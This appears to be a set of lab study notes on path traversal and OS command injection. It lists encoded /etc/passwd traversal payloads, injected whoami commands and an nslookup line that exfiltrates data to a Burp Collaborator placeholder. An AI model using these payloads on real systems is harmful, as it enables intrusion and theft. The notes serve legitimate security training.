 # Path Traversal
most entry point is at /image?filename=....jpg
**provide all technique here**
```
../../../etc/passwd
%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd

/etc/passwd

/var/www/images/../../../etc/passwd

../../../etc/passwd%00.png
```

----
----

# OS Command Injection
**OS command injection, simple case**

    execute whoami
    /product/stock
1. find any entry point
2. POST /product/stock e.g.`productId=1|whoami` or `&storeId=1`
---
**Blind OS command injection with time delays**

    delay
    feedback function
1. the vuln is at email input try e.g. `email=x||whoami`
2. for delay `ping+-c+10+127.0.0.1||` `ping+-c+10+127.0.0.1||l`
---
**Blind OS command injection with output redirection**

    execute whoami
    feedback function
1. find any entry point such as feedback; email is vuln
2. GET /image?filename=...jpg can do path traversal
3. POST /feedback/submit `csrf=IEjsQbgDtFVt5vgffJ3IV5UFD1JcGerR&name=NAME&email=EMAIL%40EMAIL||whoami>/var/www/images/output.txt||&subject=SUB&message=MES`
4. GET /image?filename=output.txt
---

**Blind OS command injection with out-of-band data exfiltration**

    feedback function
    whoami to DNS
1. find any entry point such as feedback; email is vuln
2. ```mail=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||```
---
**Blind OS command injection with out-of-band interaction**
